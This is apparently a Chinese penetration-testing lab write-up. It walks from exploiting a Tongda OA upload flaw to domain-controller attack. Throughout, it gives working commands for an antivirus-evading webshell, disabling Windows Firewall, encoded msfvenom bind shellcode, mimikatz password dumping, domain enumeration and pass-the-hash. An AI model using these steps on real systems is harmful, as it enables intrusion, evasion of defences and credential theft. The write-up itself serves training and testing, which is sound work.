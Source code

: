 ###### 5.2.1 通达OA 办公系统getshsell
1. `这里使用通达oa之前爆的一个文件上传加文件包含漏洞进行利用攻击，下载exp。`1. `要将一下源代码进行修改，因为自带的代码生成的shell一般都会被查杀。`1. `这里直接使用蚁剑生成一些免杀的一句话。`1. `将生成代码进行base64编码，`1. `将编码生成代码替换。`1. `使用“ proxychains python3 tongda\ exp.py -H http://10.10.1.130 -file-shell ”生成木马。`1. `代理火狐浏览器成功访问，木马上传成功。`1. `设置蚁剑代理后，连接。`1. `连接成功，`
###### 5.2.2 对通达OA服务器进行信息收集
1. `此时有一个比较迷的问题，就是蚁剑执行命令没有回显。`1. `可以操作文件，没有命令回显，那就让命令执行结果写入文件中。`
<br/> ，
1. `使用“ net start &gt;&gt; cmd.txt ”看看已经启动的服务。映入眼帘的360.`1. `在使用“ tasklist &gt;&gt; cmd.txt ”，“netstat -ano &gt;&gt; cmd.txt”，“systeminfo &gt;&gt; cmd.txt”看看。`
<br/> ，

<br/> ，
1. `使用命令“ ipconfig /all &gt; cmd.txt ”。 `
`常用命令：`
1. `net start 看看已经启动的服务。 tasklist 查看计算机应用列表。`1. `netstat -ano 查看网络连接信息。 Systeminfo 查看计算机信息。`1. `ipconfig /all 查看网络信息。 whoami 查看当前权限。`
`信息整理：`
1. `oa 服务器存在两个 IP `1. `分别是 10.10.1.130 10.10.10.166 `1. `防护软件 ：`1. `内置系统防火墙 Windows Firewall 360 安全卫士 360 杀毒软件`
###### 5.2.3 关闭OA服务器系统自带的防火墙
1. `从上面看到，OA服务器的端口开放很多。`1. `但是因为防火墙的原因，导致我们代理kali扫描的时候，仅仅可以扫到80端口。`1. `此时，可以使用`1. `“ NetSh Advfirewall set allprofiles state off ” `1. `关闭 Windows Firewall。即关闭win自带防火墙。`
`为什么要关闭防火墙？`
1. `因为一会要，msf生成木马进行正向连接OA服务器。`1. `有防火墙拦截的话，是无法上线MSF的。`1. `通过上边的信息收集，我们得知oa服务器是开启445端口的。正常代理nmap探测一下。`1. `关闭状态，我们使用命令“ NetSh Advfirewall set allprofiles state off ”来关闭防火墙。`1. `再次对目标进行探测，`
###### 5.2.4 免杀360全家桶上线MSF
1. `生成正向连接 shellcode。命令`1. `“ msfvenom -p windows/meterpreter/bind_tcp LPORT=6666 -e x86/shikata_ga_nai -i 15 -f csharp -o payload_bind.txt ”`1. `继续使用掩日免杀。`1. `这里生成的木马可能会被查看，也可能不会。`1. `一般可以使用“ curl http://www.baidu.com ”命令，`1. `来查看服务器是否出网，不出网的话，360全家桶也行很久都没有更新。`1. `这里就直接将生成的木马上传，`1. `先在oa服务器上执行，`1. `然后MSF中进行配置设置，`1. `运行，得到会话，`
###### 5.2.5 获取OA服务器的哈希明文
1. `查看权限是system之后，就迁移进程抓取哈希先，`1. `这个进程若是迁移到非system之中。`1. `可能就会dump不出hash。`1. `加载mimikatz，使用`1. `“ mimikatz_command -f sekurlsa::searchPasswords ”`1. `或者“ msv ”抓取明文。`
`注意的是`
1. `这里还不能直接使用`1. `“ mimikatz_command -f sekurlsa::searchPasswords ”，`1. `使用目标服务器存在360，加载猕猴桃之后，`1. `使用此功能抓取密码会被直接拦截。`1. `导致会话被干掉，这里还是使用“ msv ”。`
###### 5.2.6 收集整理分析内网域的信息

**（1）判断是不是在域中，可以使用“ net time /domian ”来查看。这种是存在域，**
1. `这种是不在域中。`
**（2）或者使用ps查看进程，发现存在域管理员进程。**

**（3）定位域控，使用命令“ run post/windows/gather/enum_domain ”**

**（4）定位域控的另一个小知识，有时候直接“ ping dc ”就好了。**

**（5）使用命令“run post/windows/gather/enum_logged_on_users”查看登录的用户。**

#### 5.3 对域控主机进行渗透

###### 5.3.1 代理nmap扫描域控端口
1. `上边说到，我们使用ps查看进程的时候，发现域管理员在线。`1. `我们可以直接迁移进程到其中。`1. `之后使用“shell”来产生一个会话，这个会话就可以直接访问域控C盘。`1. `注意此次迁移使用命令“ steal_token ”，非“ migrate ”。`1. `但是域管理员会话产生失败，自然也获取不到域控C盘信息。`1. `我们返回msf，切换回system权限把还是，命令“ rev2self ”。`1. `还是老老实实，加代理，扫端口把。`1. `对常见端口进行扫描，`
`“proxychains nmap -sT -Pn 10.10.10.165 -p 80,89,8000,9090,1433,1521,3306,5432,445,135,443,873,5984,88,6379,7001,7002,9200,9300,11211,27017,27018,50000,50070,50030,21,22,23,2601,3389 --open”`
1. `最终扫描到开放4个端口。`
#### 5.3.2 利用kiwi dcsync_ntml获取域管理员的ntml
1. `看到开放445，我们可是先获取域管理员的hash与ntml，来尝试登录。`1. `比如msf的这个模块“ exploit/windows/smb/psexec ”。或者直接使用pth。`
**扩展之什么是pth：**
1. `PTH （pass-the-hash）`1. `pass-the-hash在内网渗透中是一种很经典的攻击方式，`1. `原理就是攻击者可以直接通过LM Hash和NTLM Hash访问远程主机或服务，`1. `而不用提供明文密码。`
，